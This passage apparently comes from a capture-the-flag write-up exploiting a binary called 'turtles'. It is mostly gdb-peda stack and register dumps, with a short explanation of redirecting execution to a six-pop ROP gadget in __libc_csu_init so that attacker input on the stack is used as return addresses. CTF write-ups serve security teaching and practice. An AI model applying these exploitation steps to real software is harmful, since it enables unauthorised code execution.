 ```
0024| 0x7ffca50fc1b8 --> 0x20f4f00 --> 0x400d3a (<__libc_csu_init+90>:	pop    rbx)
0032| 0x7ffca50fc1c0 --> 0x400d3a (<__libc_csu_init+90>:	pop    rbx)
0040| 0x7ffca50fc1c8 ('0' <repeats 16 times>)
0048| 0x7ffca50fc1d0 ("00000000")
0056| 0x7ffca50fc1d8 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0000000000400c9b	31	in turtles.m
gdb-peda$ x/20g 0x7ffca50fc1d8
0x7ffca50fc1d8:	0x0000000000000000	0x3030303030303030
0x7ffca50fc1e8:	0x3030303030303030	0x00000000020f4ef0
0x7ffca50fc1f8:	0x3030303030303030	0x3030303030303030
0x7ffca50fc208:	0x3030303030303030	0x00000000020f4ef0
0x7ffca50fc218:	0x3030303030303030	0x3030303030303030
0x7ffca50fc228:	0x3030303030303030	0x3030303030303030
0x7ffca50fc238:	0x3030303030303030	0x3030303030303030
0x7ffca50fc248:	0x3030303030303030	0x3030303030303030
0x7ffca50fc258:	0x3030303030303030	0x3030303030303030
0x7ffca50fc268:	0x3030303030303030	0x3030303030303030
```

Now at `0x400d3a`, there is a ROP gadget that will pop 6 values off the stack and return:

```
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15
retn
```

When we run this as our one gadget, we find that the stack frame ends up in our input, and we end up executing our input as instruction addresses. However after that gadget, it will return to `0x7ffca50fc1f8`:

```
[----------------------------------registers-----------------------------------]
RAX: 0x400d3a (<__libc_csu_init+90>:	pop    rbx)
RBX: 0x400c9d (<main+281>:	mov    rbx,QWORD PTR [rbp-0x18])
RCX: 0xc ('\x0c')
RDX: 0x6013a0 --> 0x7f5e6479ab80 --> 0x7f5e6479aec0 --> 0x7f5e6408aa00 (0x00007f5e6408aa00)
RSI: 0x601560 --> 0xc00000069 ('i')
RDI: 0x20f4ef0 (0x00000000020f4ef0)
RBP: 0x7ffca50fcac8 --> 0x7ffca50fd25f ("./turtles")
RSP: 0x7ffca50fc1c8 ('0' <repeats 16 times>)
RIP: 0x400d44 (<__libc_csu_init+100>:	ret)
R8 : 0xd2c (',\r')
R9 : 0x7ffca50f9981 --> 0x0 
R10: 0x25 ('%')
R11: 0x7f5e6343aad0 (<__memmove_avx_unaligned_erms>:	mov    rax,rdi)
R12: 0x100000000 
R13: 0x20f4ef0 (0x00000000020f4ef0)
R14: 0x20f4f00 --> 0x400d3a (<__libc_csu_init+90>:	pop    rbx)
R15: 0x400d3a (<__libc_csu_init+90>:	pop    rbx)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400d3e <__libc_csu_init+94>:	pop    r13
   0x400d40 <__libc_csu_init+96>:	pop    r14
   0x400d42 <__libc_csu_init+98>:	pop    r15
=> 0x400d44 <__libc_csu_init+100>:	ret    
   0x400d45:	data16 nop WORD PTR cs:[rax+rax*1+0x0]
   0x400d50 <__libc_csu_fini>:	repz ret 
   0x400d52:	add    BYTE PTR [rax],al
```